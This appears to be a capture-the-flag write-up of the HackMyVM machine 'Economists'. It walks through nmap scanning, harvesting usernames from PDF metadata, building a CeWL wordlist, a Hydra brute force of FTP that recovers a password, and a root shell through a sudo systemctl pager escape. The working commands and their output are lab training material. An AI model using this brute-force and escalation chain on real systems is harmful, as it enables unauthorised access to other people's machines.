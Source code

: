 ```yaml
---
layout: post
title: "HackMyVM: Economists"
---
```


A machine requiring attention to the small details and a fair amount of recon, but easy if you know what you're doing. Also a beginner-friendly box, but took me a while playing blind.

### Recon

**nmap**

```
Starting Nmap 7.80 ( https://nmap.org ) at 2023-11-22 19:57 EST  
Nmap scan report for elite-economists.hmv (192.168.56.109)  
Host is up (0.00021s latency).  
Not shown: 997 closed ports  
PORT   STATE SERVICE VERSION  
21/tcp open  ftp     vsftpd 3.0.3  
| ftp-anon: Anonymous FTP login allowed (FTP code 230)  
| -rw-rw-r--    1 1000     1000       173864 Sep 13 11:40 Brochure-1.pdf  
| -rw-rw-r--    1 1000     1000       183931 Sep 13 11:37 Brochure-2.pdf  
| -rw-rw-r--    1 1000     1000       465409 Sep 13 14:18 Financial-infographics-poster.pdf  
| -rw-rw-r--    1 1000     1000       269546 Sep 13 14:19 Gameboard-poster.pdf  
| -rw-rw-r--    1 1000     1000       126644 Sep 13 14:20 Growth-timeline.pdf  
|_-rw-rw-r--    1 1000     1000      1170323 Sep 13 10:13 Population-poster.pdf  
| ftp-syst:    
|   STAT:    
| FTP server status:  
|      Connected to ::ffff:192.168.56.1  
|      Logged in as ftp  
|      TYPE: ASCII  
|      No session bandwidth limit  
|      Session timeout in seconds is 300  
|      Control connection is plain text  
|      Data connections will be plain text  
|      At session startup, client count was 1  
|      vsFTPd 3.0.3 - secure, fast, stable  
|_End of status  
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)  
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))  
|_http-server-header: Apache/2.4.41 (Ubuntu)  
|_http-title: Home - Elite Economists  
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 6.61 seconds
```

A 22-80 situation, with 21 mixed in! Since FTP's here, let's download these files anonymously.

**ftp**

Looking at these files. there's not much interesting information in the contents of the PDFs themselves. Mostly just infographics for a financial company's website. What is worth exploring is the metadata of these files. Specifically, who made these things? I do wonder...

```
thehated@TRYHARDER:/dev/shm$ exiftool *.pdf | grep Author  
Author                          : joseph  
Author                          : richard  
Author                          : crystal  
Author                          : catherine  
Author                          : catherine
```

**cewl**

Now we know. These can be potential usernames in a brute force attack, so we'll write these down. Now for passwords. My initial thought would be to run an attack on the FTP service with these names, but I'd only do that in a last resort since there are multiple. Instead, what we can do is curate our list of words down to a likely list of passes. CeWL can provide us assistance in exactly that. Running this command, we'll get that list right from the website hosted on the box:
```
cewl http://192.168.56.109 > passes.txt
```

### User

Replace the IP with whatever yours is. This collects keywords from the website that could be useful in password-related attacks, like the barrage we're hitting the server with soon. Let's try Joseph first, shall we? Employing Hydra? Affirmative.
```
hydra -l joseph -P passes.txt ftp://192.168.56.109
```

It doesn't take long at all for hydra to come back with a successful user:pass combination.
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-11-22 19:46:31
[DATA] max 16 tasks per 1 server, overall 16 tasks, 462 login tries (l:1/p:462), ~29 tries per task
[DATA] attacking ftp://192.168.56.109:21/
[STATUS] 294.00 tries/min, 294 tries in 00:01h, 168 to do in 00:01h, 16 active
[21][ftp] host: 192.168.56.109   login: joseph   password: wealthiest
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-11-22 19:47:40
```

Alright, now let's get into the box as if it was MIT! May SSH be with us.
```
joseph@elite-economists:~$
```

### Root

What do we always do first? `sudo -l`. Something comes up, and it offers a direct path to root, as we'll soon learn.
```
Matching Defaults entries for joseph on elite-economists:  
   env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  
  
User joseph may run the following commands on elite-economists:  
   (ALL) NOPASSWD: /usr/bin/systemctl status
```

Now, why is this dangerous? `systemctl` employs a pager to scroll through the many logs it displays to the user, the default one being `less`. It not only lets you page through files, but escape it entirely and execute shell commands. By running `sudo systemctl status` and typing in `!sh`, a root terminal awaits us upon hitting that enter key. Another box down, but there's always more to tackle!
```
root@elite-economists:~#
```
